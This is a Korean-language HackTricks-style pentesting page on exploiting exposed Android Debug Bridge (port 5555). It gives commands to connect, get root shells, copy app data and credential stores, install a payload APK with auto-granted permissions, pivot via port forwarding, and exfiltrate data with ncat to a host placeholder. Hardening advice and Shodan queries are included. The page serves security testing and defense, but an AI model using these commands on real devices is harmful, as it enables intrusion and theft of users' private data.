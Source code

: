 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## 기본 정보

From [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb)는 Android 기반 장치 및 에뮬레이터와 통신하기 위한 명령줄 도구입니다. 일반적인 작업에는 패키지 설치, 디버깅 및 장치에서 대화형 Unix 셸을 얻는 것이 포함됩니다.

- 역사적 기본 TCP 포트: 5555 (클래식 "adb tcpip" 모드).
- 현대 무선 디버깅 (Android 11+)은 TLS 페어링 및 mDNS 서비스 검색을 사용합니다. 연결 포트는 동적이며 mDNS를 통해 발견됩니다; 5555가 아닐 수 있습니다. 페어링은 adb pair host:port 다음에 adb connect로 수행됩니다. 공격적 의미에 대한 주의 사항은 아래를 참조하십시오.

Example nmap fingerprint:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Connect

ADB가 노출되어 있고 접근 가능하다면, 빠르게 연결하고 열거해 보세요:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- 만약 장치가 ADB 인증을 강제하는 경우 (ro.adb.secure=1), 사전 인증(USB RSA 인증)을 받거나 Android 11+ 무선 디버깅 페어링을 사용해야 합니다(이는 장치에 표시된 일회성 코드가 필요합니다).
- 일부 벤더 이미지, 엔지니어링/사용자 디버그 빌드, 에뮬레이터, TV, STB 및 개발 키트는 인증 없이 adbd를 노출하거나 adbd가 루트로 실행됩니다. 이러한 경우, 일반적으로 셸 또는 루트 셸에 직접 접근하게 됩니다.

일반 ADB 명령 참조는 다음을 참조하십시오:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## 빠른 포스트 익스플로잇

셸에 접근한 후, 권한 및 SELinux 컨텍스트를 검증하십시오:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### 데이터 열거 및 캡처

- 서드파티 앱 및 경로 나열:
```bash
pm list packages -3
pm path <pkg>
```
- 루트 권한이 있는 경우 (adb root 또는 su 사용 가능), /data에 직접 접근할 수 있습니다. 그렇지 않으면 디버깅 가능한 앱에 대해 run-as를 사용하는 것이 좋습니다:
```bash
# 루트 없이, 디버깅 가능한 앱의 경우
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# 루트가 있는 경우
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- 유용한 시스템 아티팩트 (루트 필요):
- /data/system/users/0/accounts.db 및 관련 AccountManager 데이터
- /data/misc/wifi/ (구버전의 네트워크 구성/키)
- /data/data/<pkg> 아래의 앱 전용 SQLite DB 및 shared_prefs

이를 사용하여 민감한 정보를 검색할 수 있습니다 (예: 앱 비밀). Chrome 데이터 고려 사항에 대한 노트는 [여기](https://github.com/carlospolop/hacktricks/issues/274)에서 참조하십시오.

### 코드 실행 및 페이로드 전달

- 런타임 권한 설치 및 자동 부여:
```bash
adb install -r -g payload.apk         # -g는 매니페스트에 선언된 모든 런타임 권한을 부여합니다
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- 활동/서비스/브로드캐스트를 직접 시작:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### 포트 포워딩 및 피벗팅

루트 없이도 adb는 로컬 포트를 장치 포트로, 또는 그 반대로 포워딩할 수 있습니다. 이는 장치에서 로컬로 바인딩된 서비스에 접근하거나 공격자 서비스를 장치에 노출하는 데 유용합니다.

- 호스트->장치 포워딩 (호스트에서 장치 로컬 서비스에 접근):
```bash
adb forward tcp:2222 tcp:22       # 장치가 SSH를 실행하는 경우 (예: Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # 앱의 로컬 디버그 서버 노출
```
- 장치->호스트 역방향 (장치가 호스트의 서비스에 접근):
```bash
adb reverse tcp:1080 tcp:1080     # 이제 장치 앱이 127.0.0.1:1080으로 호스트:1080에 접근할 수 있습니다
```
- 소켓을 통한 파일 유출 (sdcard 쓰기 없음):
```bash
# 호스트에서: 수신 대기
ncat -lvp 9000 > dump.tar
# 장치에서: tar로 디렉토리 전송 (루트 또는 run-as 적용 가능)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## 무선 디버깅 (Android 11+)

현대 Android는 장치 측 페어링 및 mDNS 검색을 통해 TLS로 보호된 무선 디버깅을 구현합니다:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
노트
- 포트는 동적입니다; 5555를 가정하지 마십시오. mDNS 서비스 이름은 다음과 같습니다:
- _adb-tls-pairing._tcp (페어링)
- _adb-tls-connect._tcp (페어링 연결)
- _adb._tcp (레거시/일반)
- mDNS가 필터링되면, 일부 빌드에서는 고전 USB 지원 활성화가 여전히 작동할 수 있습니다: `adb tcpip 5555` 다음 `adb connect <ip>:5555` (재부팅 전까지).

공격적 의미: 장치 UI와 상호작용할 수 있다면 (예: 물리적 접근 또는 모바일 MDM 잘못 구성) 무선 디버깅을 활성화하고 페어링 코드를 볼 수 있습니다. 이 경우 케이블 없이 장기적으로 페어링된 ADB 채널을 설정할 수 있습니다. 일부 OEM은 페어링 없이 엔지니어링/개발 이미지에서 TCP를 통해 ADB를 노출합니다—항상 확인하십시오.

## 강화 / 탐지

수비자는 도달 가능한 adbd (TCP)가 중요한 위험이라고 가정해야 합니다.

- 필요하지 않을 때 ADB 및 무선 디버깅을 비활성화하십시오. 개발자 옵션에서 USB 디버깅 권한을 취소하십시오.
- 신뢰할 수 없는 세그먼트에서 수신 TCP/5555 및 mDNS 기반 ADB 검색을 차단하는 네트워크 정책을 보장하십시오.
- 귀하의 제어 하에 있는 장치에서:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # TCP 수신 비활성화 (또는 사용: adb usb)
stop adbd; start adbd             # 데몬 재시작
```
- 기업 네트워크에서 mDNS 레코드 `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp`를 모니터링하고 예상치 못한 5555 리스너에 대한 경고를 설정하십시오.
- 불안전한 빌드에 대한 인벤토리: `getprop ro.debuggable`, `ro.build.type`, 및 `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## 참조

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
